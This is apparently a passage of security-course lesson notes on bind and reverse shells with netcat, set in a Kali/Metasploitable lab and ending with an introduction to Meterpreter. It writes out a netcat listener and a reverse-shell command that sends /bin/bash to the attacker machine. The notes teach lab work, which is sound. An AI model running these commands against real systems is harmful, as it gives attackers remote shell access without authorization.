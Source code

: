       - `nc -lvnp 4444`


2. On the Metasploitable VM, run the following command:

   - `nc 192.168.0.8 4444 -e /bin/bash`

     -  `nc`: Starts the listener on port `4444`.
     - `-e /bin/bash`: Provides a shell to the connecting machine, in this case the attacking Kali machine.

   ![REV 2](./Images/REVERSE_2.png)

3. Back on the Kali machine, you should see a successful connection.

    - Demonstrate code execution by running the following on the Kali machine:

       - `whoami`
       - `ifconfig`

    - This demonstrates that the shell on the target is active and responding.

       ![REV 1](./Images/REVERSE_1.png)

    - This  means that you have successfully established a connection between the attacker and target machines.


### 03. Activity: Bind and Reverse Shells and Ncat  

- [Activity File: Bind and Reverse Shell and Ncat](./Activities/03_Bind_and_Reverse/Unsolved/README.md)


### 04. Activity Review: Bind and Reverse Shells and Ncat  

- [Solution File: Bind and Reverse Shell and Ncat](./Activities/03_Bind_and_Reverse/Solved/README.md)

### 05.  First Steps with Meterpreter

Metasploit is a convenient tool suite that automates entire steps of engagements and enables complex and advanced techniques. 

- For example, Metasploit can exploit a target _and_ open a session onto it in a single step.
